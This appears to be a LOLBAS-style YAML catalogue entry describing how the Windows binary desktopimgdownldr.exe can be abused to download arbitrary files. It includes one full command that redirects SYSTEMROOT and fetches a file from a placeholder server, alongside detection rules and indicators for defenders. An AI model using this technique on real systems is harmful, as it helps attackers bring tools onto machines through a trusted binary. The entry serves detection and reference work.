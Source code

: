 ```yaml
---
Name: Desktopimgdownldr.exe
Description: Windows binary used to configure lockscreen/desktop image
Author: Gal Kristal
Created: 2020-06-28
Commands:
  - Command: set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
    Description: Downloads the file and sets it as the computer's lockscreen
    Usecase: Download arbitrary files from a web server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\desktopimgdownldr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_desktopimgdownldr.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/win_susp_desktopimgdownldr_file.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml
  - IOC: desktopimgdownldr.exe that creates non-image file
  - IOC: Change of HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP\LockScreenImageUrl
Resources:
  - Link: https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/
Acknowledgement:
  - Person: Gal Kristal
    Handle: '@gal_kristal'
---
```

